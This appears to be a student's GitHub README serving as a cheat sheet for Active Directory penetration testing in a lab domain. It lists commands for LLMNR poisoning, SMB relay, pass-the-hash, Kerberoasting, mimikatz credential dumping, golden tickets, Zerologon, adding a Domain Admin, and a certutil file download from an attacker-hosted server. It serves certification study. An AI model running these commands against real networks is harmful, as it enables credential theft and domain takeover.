




# Hi, I'm Dr4ks! 👋

## 🚀 About Me
I'm a Cyber Security student.

## 🔗 Links
[](https://www.linkedin.com/in/sahib-humbatzada-42b082223/)
[](https://www.hackerrank.com/Dr4ks)
[](https://tryhackme.com/p/Dr4ks)
[](https://github.com/Dr4ks)


## Content
- [Recon](#recon)
- [Enumeration](#enumeration)
- [Initial attacks for Active Directory](#initial-attacks-for-active-directory)
- [Post Compromise Enumeration for Active Directory](#post-compromise-enumeration-for-active-directory)

- [Post Compromise Attacks for Active Directory](#post-compromise-attacks-for-active-directory)
- [After compromising Domain](#after-compromising-domain)
- [Additional AD attacks](#additional-ad-attacks)
- [AD Case Studies](#ad-case-studies)
- [Result](#result)

# Recon
Introduction is here!



Discovering email addresses(links)=>

https://hunter.io/

https://phonebook.cz/

https://www.voilanorbert.com/

https://tools.emailhippo.com/

https://email-checker.net/


Gathering breached credentials=>

https://github.com/hmaverickadams/breach-parse

https://dehashed.com/

Hunting Subdomains=>

https://crt.sh/

```bash
sublist3r -d tesla.com -t 100
```

Identifying website technologies=>

https://builtwith.com/

wappanalyzer tool

```bash
whatweb https://tesla.com
```

Google Dorking=>

site:tesla.com  (returns results from only tesla.com website)

-www (remove results which have 'www' values)

filetype:docx  (return results which filetype is docx.)

# Enumeration
```bash
arp-scan -l  
```

```bash
netdiscover -r 192.168.57.0/24
```

```bash
nmap -T4 -p- -sS -A 192.168.57.134
```

# Initial attacks for Active Directory

LLMNR Poisoning=>


How to do=>

1.Open responder:
```bash
responder -I tun0 -dwPv 
```

2.Write your ip as this format to search on File Explorer
```bash 
//attacker_ip
```

3.Responder will give you result,you will crack in this way.
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists  rockyou.txt
```

SMB Relay=>
For this attack works, SMB Signing must be **disabled**.

1.Checking SMB signing:
```bash
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```

2.Open responder:
```bash
responder -I tun0 -dwPv 
```

3.Make configurations for responder tool here, '/etc/responder/Responder.conf'
You need to **disable** (make OFF) HTTP and SMB

4.Set up your relay
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

5.Write your ip as this format to search on File Explorer
```bash 
//attacker_ip
```

Reminder! Run commands via ntlmrelayx.py
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

Gaining Shell Access=>

First Way:
We can use Metasploit for this.
```bash
use exploit/windows/smb/psexec
set SMBDomain MARVEL.local
set SMBUser fcastle
set SMBPass Password1
```

Second Way:
We can use psexec.py to access
```bash
psexec.py marver.local/fcastle:'Password1'@10.0.0.25
```

Third way:
Again, we use psexec.py to access , but with user's hashes (LM:NT), it is like Pass-The-Hash attack
```bash
psexec.py administrator@10.0.0.25 --hashes [LM-HASH]:[NTLM-HASH]
```

Fourth Way:
If psexec.py doesn't work for third way,
you need to use **wmiexec.py** as below.
```bash
wmiexec.py administrator@192.168.138.137 --hashes [LM-HASH]:[NTLM-HASH]
```


IPv6 attacks=>

1.Open **mitm6** for target domain
```bash
sudo mitm6 -d marvel.local
```

2.At the same time, open **ntlmrelayx.py**
```bash
ntlmrelayx.py -6 -t ldaps://192.168.138.136 -wh fakewpad.marvel.local -l lootme
```

3.You will get results like this from **'/home/kali/lootme/domain_computers.html'**


# Post Compromise Enumeration for Active Directory

Domain Enumeration with **ldapdomaindump**=>
1.Run below command
```bash
sudo ldapdomaindump ldaps://192.168.138.136 -u 'MARVEL\fcastle\' -p Password1
```
2.Then do **ls** command to see all things.

Domain Enumeration with **bloodhound-python**=>
1.Run below command
**-ns option** means your DC(Domain Controller's IP)

```bash
sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns [DC-IP] -c all 
```

2.Then do **ls** command to see all things.
If you want to see via GUI, you just upload .json file into Bloodhound.

Domain Enumeration with **Plumhound**=>

When you do below command, **Bloodhound** should be up!
1.
```bash
sudo python3 PlumHound.py --easy -p [YOUR_PASS]
```

2.Another thing for all.
```bash
sudo python3 PlumHound.py -x tasks/default.tasks -p [YOUR_PASS]
```

3.Finally, by opening Firefox, you can look at results.

# Post Compromise Attacks for Active Directory

Pass the Password=>
```bash
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```

Grab some local hashes=>

First Way:

For this, we can use meterpreter by using hashdump.
```bash
use windows/smb/psexec
run
hasdump #you will get hashes of users.
```

Second Way:
```bash
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25
```

Third Way:
```bash
secretsdump.py administrator:@192.168.138.138 --hashes [LM-HASH]:[NT-HASH]
```

Pass the Hash=>
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H [USER-HASH]
```

Reminder! Cheatsheet of crackmapexec

--local-auth : authenticate locally to each target

--sam : dump SAM hashes from target systems.

--lsa : dump LSA secrets from target systems.

--shares: enumerate shares and access

-L : List available modules for each protocol

-M : Specify module

How to use **available** module for crackmapexec?
```bash
crackmapexec smb 192.168.138.0/24 -u administrator -H [USER-HASH] --local-auth -M lsassy
```

**Reminder**! If you want to access database of crackmapexec, you just need to use **cmedb** command


Kerberoasting=>

1.Get SPNs 
```bash
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip [DC_IP] -request
```

2.Crack the hash
```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

Token Impersonation=>

To see all tickets on meterpreter
```bash
meterpreter > list_tokens -u
```

To impersonate user:
```bash
meterpreter > impersonate_token MARVEL\\administrator
```

To dump hashes:
```bash
mimikatz(powershell) # privilege::debug
mimikatz(powershell) # LSADump::LSA /patch
```

How to add a new user:
```powershell
net user /add hawkeye Password1@ /domain
```

How to add user into group:
```powershell
net group "Domain Admins" hawkeye /ADD /DOMAIN
```

GPP attack(cPassword attack)=>
Sample Groups.xml file=>


Cracking password=>



Credential Dumping with Mimikatz=>

Mimikatz:https://github.com/gentilkiwi/mimikatz

Below command is must on Mimikatz!
```bash
mimikatz # privilege::debug
```

Reminder! When you write module_name then put "::" then , clicking Tab, you can get **HELP**

1.sekurlsa : This module is used to enumerate credentials.
Example:
```bash
mimikatz # sekurlsa:logonPasswords
```

# After compromising Domain

Dumping NTDS.dit=>
```bash
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm 
```

Golden Ticket Attacks=>

1.First, we get NTLM hash ,SID and relative ID of krbtgt account from KDC
```bash
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```

2.Then using above creds, we just create golden ticket.
```bash
kerberos::golden /User:Administrator /domain:marvel.local /sid:[SID_VALUE] /krbtgt:[KRBTGT_NTLM_HASH] /id:[RELATIVE_ID] /ptt
```

# Additional AD attacks

CVE-2020-1472=> This is Abusing **Zerologon**.

URL=>https://github.com/SecuraBV/CVE-2020-1472

How to do=>

1.We get Administrator hash from here
```bash
secretsdump.py -just-dc MARVEL/HYDRA-DC\$@192.168.138.132
```

2.Now ,we need to get 'plain_password_hex' by using hash in below format.
```bash
secretsdump.py administrator@192.168.138.132 --hashes [LM:NTLM_HASH]
```

3.Now, we use script from Github as below
```bash
python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 192.168.138.132 -hexpass [HEX_VALUE]
```


CVE-2021-1675=> This is **PrintNightmare**

URL=https://github.com/cube0x0/CVE-2021-1675

How to check this=> For this, we use rpcdump.py script
```bash
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

# AD Case Studies

Case 1: https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security
Case 2: https://tcm-sec.com/pentest-tales-002-digging-deep

# Post Exploitation

File Transfers=>

1.Powershell for Windows
```powershell
certutil.exe --urlcache -f http://10.10.10.10/file.txt file.txt
```

2.Open HTTP server to share files on directory
```bash
python3 -m http.server --bind [your_ip] [port]
```

# Result
[Click me!](https://www.linkedin.com/posts/dr4ks_pjpt-tcmsecurity-activity-7096676619943034880-t1mH/)
## Authors
- [@dr4ks](https://www.github.com/Dr4ks)
